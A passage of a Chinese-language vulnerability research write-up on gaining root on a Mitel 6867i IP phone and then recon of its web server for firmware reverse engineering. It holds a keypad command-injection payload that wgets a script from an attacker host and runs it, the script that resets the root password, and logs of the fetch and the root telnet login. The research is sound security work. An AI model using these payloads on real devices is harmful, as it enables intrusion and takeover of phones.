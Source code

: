 然而，由于我们没有电话的root密码，我们需要重置当前的密码。由于物理键盘上没有|字符，这有点棘手。幸运的是;./+都是可用的，这正是我们通过wget获取任意内容的有效载荷所需要的。  
  
所以我们的新命令注入变成了以下内容  
  
&telnetd;cd /tmp;wget <attackerip>/s.sh;chmod +x ./s.sh;./s.sh;rm s.sh;  
  
要获取/字符，您需要按5次1按钮。是的，这个有效载荷在电话键盘上输入需要很长时间。  
  
这使我们能够远程编写没有字符限制的有效载荷，并让电话获取它，运行它，然后删除它。  
  
在s.sh内部，我们编写了以下内容：  
```
sudo su
printf "sample\nsample\nsample\n" | passwd root
```  
  
s.sh简单地由我们的攻击机器上的python -m http.server 80托管，电话应该能够访问。在这里，我们可以看到电话成功获取了文件b.sh  
```
ggisz@computer:~/mitel$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)  ...
192.168.1.100 - - [21/Mar/2024 13:43:11] "GET /b.sh HTTP/1.0" 200 -
```  
  
有效载荷简单地将我们的账户更改为root以防我们还不是，然后它将root密码设置为sample。  
  
现在，我们可以通过更新后的密码通过telnet登录到Mitel电话  
```
Trying 192.168.1.100...
Connected to 192.168.1.100.
Escape character is '^]'.

6867i login: root
Password: 
192.168.1.100 # whoami
root
192.168.1.100 # uname -a
Linux 6867i 3.4.74 #1 PREEMPT Thu Dec 2 00:37:04 EST 2021 armv6l GNU/Linux
192.168.1.100 #
```  
  
现在我们已经完成了获取良好调试环境的第一步。这个漏洞不会进一步使用，但它是我们进一步发现的基础。这可能是通过UART的调试端口或类似的，但我们选择了这种方式。  
  
从这里开始，获取固件和逆向工程是下一步。现在我们有电话的完整root访问权限，实际的漏洞开发可以开始了！  
### 逆向工程固件  
  
在初步侦察期间，我们注意到端口80上的面板，这是一个允许配置电话的HTTP服务器。  
  
这个服务器提供了许多不同的选项和功能，是一个很好的攻击向量的例子。然而，**所有功能都受到基本认证的保护**，因此对于未经认证的用户来说，似乎没有任何功能可用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yFBMSdZDRhMFulrFdiao7FDMDBHkEV3Poy9X7FzcZTwV1UYZd5TRFwnG0BalRFEs17vPhbOyUfVjUA/640?wx_fmt=png&from=appmsg "")  
  
alt text  
  
如果我们利用我们的root访问权限进行一些侦察，我们可以看到负责web服务器的二进制文件叫做linemgrSip，并且运行在端口80上：  
```
192.168.1.100 # netstat -lntp Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 192.168.1.100:5060      0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 192.168.1.100:5061      0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      944/linemgrSip
tcp        0      0 :::49249                :::*                    LISTEN      1177/httpd
tcp        0      0 :::23                   :::*                    LISTEN      7659/telnetd
```  
  